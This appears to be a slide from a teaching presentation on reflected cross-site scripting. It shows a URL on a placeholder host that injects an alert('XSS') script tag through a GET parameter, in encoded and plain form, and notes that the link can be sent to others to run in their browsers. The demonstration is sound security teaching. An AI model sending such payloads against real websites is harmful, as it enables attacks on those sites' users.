

# XSS
Example of exploiting GET:

http://website.com/page.php?name=%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E#

http://website.com/page.php?name=<script>alert("XSS")</script>

This URL can be sent to anyone, and be executed on their machines